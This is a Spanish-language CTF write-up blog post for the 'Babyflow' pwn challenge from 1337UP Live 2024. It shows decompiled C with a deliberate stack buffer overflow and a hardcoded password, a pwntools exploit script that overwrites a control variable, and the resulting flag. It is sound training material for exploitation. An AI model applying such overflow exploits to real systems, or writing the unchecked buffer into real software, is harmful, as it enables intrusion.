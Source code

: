 ```yaml
---
layout: post
title: Babyflow 1337UP Live
comments: true
categories: [Pwn, Writeups, 1337UP]
---
```


Este es uno de los retos de *calentamiento* de la 1337UP Live de 2024, competición en la que participé en solitario debido al poco tiempo que tuve. Igualmente, subiré writeups de muchos de los retos de *pwn* de la competición ya que me parecieron muy originales y entretenidos. 

![Image]({{ site.baseurl }}/images/posts/1337UP-logo.png)

# Overview

El enunciado nos dice:

```
Does this login application even work?!
```

# Reconocimiento

Tenemos un binario que al analizarlo con *checksec*:

```
    Arch:     amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

Comenzamos descompilando con *ghidra*:

```c
undefined8 main(void)

{
  int correct;
  char password [44];
  int control;
  
  control = 0;
  printf("Enter password: ");
  fgets(password,50,stdin);
  correct = strncmp(password,"SuPeRsEcUrEPaSsWoRd123",0x16);
  if (correct == 0) {
    puts("Correct Password!");
    if (control == 0) {
      puts("Are you sure you are admin? o.O");
    }
    else {
      puts("INTIGRITI{the_flag_is_different_on_remote}");
    }
  }
  else {
    puts("Incorrect Password!");
  }
  return 0;
}
```

Parece que simplemente comprueba si la contraseña coincide con `SuPeRsEcUrEPaSsWoRd123` y que la variable `control` sea igual a cero. Por suerte, en la llamada a `fgets` tenemos una vulnerabilidad de tipo *Buffer Overflow* (se almacenan 50 bytes en una variable de 44).

# Explotación

Simplemente, podemos utilizar *python* y *pwntools* para enviar esa contraseña seguida de una cadena de *A*'s que desbordaran `password` y llegarán a `control`, cambiando su valor. El script sería:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *


exe = context.binary = ELF(args.EXE or 'babyflow')

def start():

    if args.REMOTE:
        return remote("", 1336)
    else:
        return process('./babyflow')

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

payload = "SuPeRsEcUrEPaSsWoRd123"

payload += 100*'A'

io.sendline(payload)

io.interactive()
```

Si ejecutamos, tenemos la flag:

```bash
python3 ./autopwn.py REMOTE
[...]
[*] Switching to interactive mode
Enter password: Correct Password!
INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
```

Si te ha gustado, puedes seguir leyendo el resto de writeups!